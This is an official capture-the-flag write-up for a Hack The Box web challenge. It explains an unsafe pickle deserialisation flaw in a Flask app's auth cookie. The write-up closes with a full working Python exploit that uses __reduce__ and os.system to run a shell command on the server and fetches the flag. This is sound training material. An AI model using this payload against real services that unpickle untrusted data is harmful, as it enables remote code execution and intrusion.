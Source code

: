 ![img](./assets/banner.png)



<img src="./assets/htb.png" style="margin-left: 20px; zoom: 80%;" align=left />        <font size="5px">Spellbound Servants</font>

​      17<sup>h</sup> Oct 2023 / Document No. D22.102.xx

​      Prepared By: Xclow3n

​      Challenge Author(s): Xclow3n

​      Difficulty: <font color=green>Very Easy</font>

​      Classification: Official






# [Synopsis](#synopsis)

* The challenge involves exploiting an unsafe pickle deserialisation.

## Description

* Innocent souls, ensnared by malevolent enchantments, are tragically being auctioned as subservient beings on a sinister website. Our mission is to infiltrate this digital realm, unravel the dark spells that bind them, and set these unfortunate captives free from their tormentors, restoring their stolen freedom and dignity.

## Skills Required

* HTTP requests interception via proxy tools, e.g., Burp Suite / OWASP ZAP.

* Basic understanding of Python Flask framework.

  


## Skills Learned

* Exploiting unsafe pickle deserialisation.



# [Solution](#solution)

### Application Overview

Visiting the application home page gives us the following login:

![img](./assets/home.png)

After registering and logging in, we get the following home page:

![img](./assets/index.png)

That's the functionality the application has. Let's take a look at the source code.

### Unsafe Pickle Deserialisation

Looking at the login functionality defined in `routes.py` 

```python
@web.route('/home', methods=['GET', 'POST'])
@isAuthenticated
def homeView(user):
    return render_template('index.html', user=user)

@api.route('/login', methods=['POST'])
def api_login():
    if not request.is_json:
        return response('Invalid JSON!'), 400
    
    data = request.get_json()
    username = data.get('username', '')
    password = data.get('password', '')
    
    if not username or not password:
        return response('All fields are required!'), 401
    
    user = login_user_db(username, password)
    
    if user:
        res = make_response(response('Logged In sucessfully'))
        res.set_cookie('auth', user)
        return res
        
    return response('Invalid credentials!'), 403
```

The login functionality itself looks excellent and secure. The `/home` route uses a decorator function named `isAuthenticated`, defined in `utils.py`. Let's take a look at that function.

```python
def isAuthenticated(f):
    @wraps(f)
    def decorator(*args, **kwargs):
        token = request.cookies.get('auth', False)

        if not token:
            return abort(401, 'Unauthorised access detected!')
        
        try:
            user = pickle.loads(base64.urlsafe_b64decode(token))
            kwargs['user'] = user
            return f(*args, **kwargs)
        except:
            return abort(401, 'Unauthorised access detected!')

    return decorator
```

The above function extracts the cookie named `auth`, and if the cookie doesn't exist, it will return a 401 Unauthorized response, but if the cookie exists, it will base64 decode the cookie and use `pickle.loads `on it. The application is unpickling (deserializing) untrusted data, which causes command execution.



We can exploit this by implementing `__reduce__` in a class in which instances we are going to pickle. We can give the pickling process a callable plus some arguments to run. While intended for reconstructing objects, we can abuse this to get our code executed.

We can use the following exploit to get the flag

```python
import requests
import pickle
import base64
import os
import time

url = 'http://127.0.0.1:1337'

payload = f'cat /flag.txt > /app/application/static/js/flag.txt'

class RCE:
    def __reduce__(self):
        cmd = payload
        return os.system, (cmd,)

def exploit():
    pickled = pickle.dumps(RCE())
    r = requests.get(f'{url}/home', cookies={'auth': base64.urlsafe_b64encode(pickled).decode('utf-8')})
    while True:
        flag = requests.get(f'{url}/static/js/flag.txt')
        if 'HTB'.encode('utf-8') in flag.content:
            break
        time.sleep(5)
    
    print('[*] %s' % flag.content)

exploit()
```



